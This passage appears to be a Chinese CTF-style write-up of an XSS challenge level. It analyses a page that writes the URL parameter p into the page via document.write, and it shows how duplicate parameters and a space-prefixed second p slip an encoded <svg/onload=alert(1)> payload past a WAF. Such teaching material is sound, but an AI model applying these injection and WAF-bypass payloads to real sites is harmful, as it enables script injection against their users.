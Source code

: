 ```html
</html>
```
先尝试下Level 10的代码，结果并没有弹窗，而返回页面被重定向到一个警告页面，如下：
```text
Hacking attempt!
```
说明这段代码这次被过滤掉了，有可能有WAF，因此要考虑绕过。再考虑绕过之前，先分析一下前端代码：
```html
<script>
var queryDict = {}; // 定义一个字典
// 将URL中?后的查询语句取出，以 & 为分隔符进行切分。比如查询语句为 p=paylaod&a=xyz&b=efg
// 切分之后的三段分别为：p=payload a=xyz b=efg
// 然后将每一段以 = 为分隔符进行切分，= 左边的作为 Key，右边的作为 Value 存放在 queryDict 中
location.href.substr(location.href.indexOf('?')+1).split("&").forEach( function(item) {
  queryDict[item.split("=")[0]] = item.split("=")[1]
});
// payload
a = 'your_payload';
// 向当前页面中写入 <b>payload进行URI解码的结果</b>
b = document.write('<b>' + decodeURIComponent(queryDict.p) + '</b>');
</script>
```
这里可能存在两个注入点:
```html
a = 'your_payload'
```
和
```html
b = document.write('<b>' + decodeURIComponent(queryDict.p) + '</b>');
```
先看第一个注入点，如果想注入的话必须能够注入`'`来闭合JS代码。尝试后发现WAF过滤了这个字符，因此无法注入。只能考虑第二个
注入点。尝试输入`<>`，发现也被WAF检测到，因此无法注入HTML标签。怎么办呢？

**总感觉前段代码中的这段循环比较可疑，为什么要加一段循环？**  
这说明网页可以接受多个参数，那么其他参数是否可用携带注入代码呢？测试如下代码：
```html
p=payload&a=<svg/onload=alert(1)>
```
**没有报错！** 说明只有`p=xxx`可能被过滤。想来也正常，只有`p`的值才会被反射到网页中。但是还是无法绕过，假如有两个`p`参数呢？
```html
p=<svg/onload=alert(1)>&p=test
```
这次也没有报错，但是输出的结果是`test`。虽然可以绕过WAF，但还是无法把代码注入到网页中。如果想注入前端页面就不能覆盖`p`，
但如何绕过WAF呢？WAF的规则可能是怎样的呢？可能是这样的：
```text
找到最后一个 p=xxx，检查 xxx 中是否有非法的字符，如果存在则返回错误页面。
```
所以，可以尝试如下代码：
```html
p=<svg/onload=alert(1)>&mmp=test
```
结果还是被检测到了，再尝试：
```html
p=<svg/onload=alert(1)>& p=test
```
**诶，这次过了！** 虽然没有弹窗，但是也没有返回错误页面。查看页面源码，发现`document.write`的结果是这样的：
```html
<b>
    <svg onload<="" b="">
    <!-- use your head and not automatic scanners like burp.. it will not help -->
    </svg>
</b>
```
`<svg>`标签看起来有些错误，应该是`decodeURIComponent()`导致的。这个函数的参数必须是encodeURIComponent()的结果。
因此对`<svg/onload=alert(1)>`做一下URI编码，[这个网站可以编码](http://evuln.com/tools/xss-encoder/):
```html
p=%3C%73%76%67%2F%6F%6E%6C%6F%61%64%3D%61%6C%65%72%74%28%31%29%3E& p=test
```